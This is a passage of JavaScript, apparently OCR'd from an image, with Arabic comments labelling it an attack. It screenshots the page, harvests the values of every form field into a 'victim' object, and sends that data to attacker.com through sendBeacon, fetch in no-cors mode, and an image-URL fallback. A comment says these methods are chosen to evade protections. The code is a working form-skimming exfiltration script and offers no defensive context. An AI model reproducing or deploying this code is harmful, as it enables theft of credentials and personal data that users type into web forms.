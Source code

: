 ```javascript
                const canvas = await html2canvas(document.body);
                victim.screenshot = canvas.toDataURL('image/png');
                resolve();
            };
        });
    };
    
    // 3. التقاط بيانات النماذج
    const captureFormData = () => {
        const forms = {};
        document.querySelectorAll('form').forEach((form, index) => {
            const formData = {};
            form.querySelectorAll('input, select, textarea').forEach(input => {
                if (input.name || input.id) {
                    formData[input.name || input.id] = input.value;
                }
            });
            forms[`form_${index}`] = formData;
        });
        victim.forms = forms;
    };
    
    // 4. إرسال البيانات المسروقة
    const exfiltrateData = async () => {
        await captureScreen();
        captureFormData();
        
        // استخدام طرق مختلفة للتحايل على الحماية
        try {
            // محاولة استخدام Beacon API أولاً
            if (navigator.sendBeacon) {
                navigator.sendBeacon('https://attacker.com/collect', JSON.stringify(victim));
                return;
            }
            
            // محاولة استخدام Fetch API
            await fetch('https://attacker.com/collect', {
                method: 'POST',
                body: JSON.stringify(victim),
                headers: {'Content-Type': 'application/json'},
                mode: 'no-cors'
            });
        } catch (e) {
            // طريقة بديلة: استخدام الصور
            const encodedData = encodeURIComponent(JSON.stringify(victim));
            new Image().src = `https://attacker.com/collect-img?data=${encodedData}`;
        }
    };
    
    // تنفيذ الهجوم
    exfiltrateData();
})();
```

